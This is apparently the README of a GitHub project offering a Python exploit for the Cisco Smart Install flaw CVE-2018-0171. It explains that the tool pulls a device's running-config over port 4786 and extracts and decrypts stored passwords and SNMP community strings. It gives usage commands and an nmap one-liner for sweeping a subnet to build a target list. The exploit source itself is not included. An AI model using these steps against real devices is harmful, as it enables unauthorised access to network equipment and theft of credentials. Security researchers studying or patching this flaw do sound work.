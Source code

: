 # Cisco-Smart-Exploit
Cisco SmartInstall Exploit **CVE-2018-0171**

> Inspired from [C. Papathanasiou PoC](https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit)

This Python 3 script uses port 4786 on a Cisco device running SmartInstall to exploit **CVE-2018-0171**. With the use of this exploit, an attacker can craft a payload, send it to the Cisco device, and then extract the contents of the `running-config` file.

The Cisco Smart Exploit script can:  
- **Extract** the running-config file
- **Parse** and **decrypt** secret 7 hashes
- **Parse** plain text passwords
- **Parse** all the **Community String**

![Usage Script](assets/screen.png)

## Requirements

Here is the list of requirements to use the script:

- `tftpy==0.8.2`
- `c7decrypt` for secret 7 decryption
    - `gem install c7decrypt`

## Usage

```bash
 __     __   __   __      __              __  ___     ___      __        __    ___
/  ` | /__` /  ` /  \    /__`  |\/|  /\  |__)  |     |__  \_/ |__) |    /  \ |  |
\__, | .__/ \__, \__/    .__/  |  | /~~\ |  \  |     |___ / \ |    |___ \__/ |  |
by @AlrikRr

usage: cisco-se.py [-h] (-i IP | -f FILE | -c CONFIG)

optional arguments:
  -h, --help  show this help message and exit
  -i IP       Single IP Address
  -f FILE     File that contains IP list
  -c CONFIG   running-config File standalone
```
Examples :
```bash
python3 cisco-se.py -i 192.168.10.1

python3 cisco-se.py -f ip_list.txt

python3 cisco-se.py -c running-config.txt
```

### Nmap Output IP list

For the `-f FILE` option, here is an example using nmap:  

```bash
nmap -p 4786 10.20.30.0/24 --open -Pn -oG - | awk '/Up$/{print $2}' > ip_list.txt
```

## Todo List
- [ ] Handle the timeout error for some ips during `client.download()`
